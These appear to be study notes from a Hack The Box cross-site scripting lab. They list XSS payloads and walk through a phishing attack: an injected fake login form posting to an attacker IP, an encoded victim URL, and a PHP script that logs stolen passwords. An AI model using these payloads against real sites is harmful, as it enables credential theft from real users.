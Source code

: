 #### Payloads
Basic payload
```html
<script>alert(window.origin)</script>
```

Basic payload to display cookie
```html
<script>alert(document.cookie)</script>
```

Payload in case alert() is blocked. Stops rendering HTML and turns it into plaintext.
```html
<script><plaintext></script>
```

Payload to pop up browser print dialog (unlikely to be browser-blocked)
```html
<script>print()</script>
```

Payload that does not contain \<script> tag (useful for DOM attacks). Creates new HTML image object with an onerror that triggers when the image cannot be found:
```html
<img src="" onerror=alert(window.origin)>
```
##### More Payloads
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md) or [PayloadBox](https://github.com/payloadbox/xss-payload-list)
#### Tools
 [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser)

#### Exploit Example
This example was used in HTB's XSS module as an example of how to phish using an XSS exploit.

Example HTML of a basic form
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

XSS script used to test for XSS on the img display page (begins with a closing tag to close the IMG tag, and ends with the beginning of a comment to inactivate the rest of the HTML on page)
```HTML
"'><script>alert(window.origin)</script><!--
```

XSS script used to (1) inject a basic form, (2) have the form submit to our controlled server on port 800, (3) remove the display of the URL textbox on the original img display page that has the id 'urlform':
```html
"'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.3:800><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```

Phishing URL to be sent to victim with the XSS script embedded to execute on the img display page:
```url
http://10.129.231.158/phishing/index.php?url=%22%27%3E%3Cscript%3Edocument.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.14.3:800%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3Bdocument.getElementById%28%27urlform%27%29.remove%28%29%3B%3C%2Fscript%3E%3C%21--
```

The index.php needed to capture phished credentials:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

The command to start a php server to use the index.php created:
```shell
$ sudo php -S 0.0.0.0:800
```

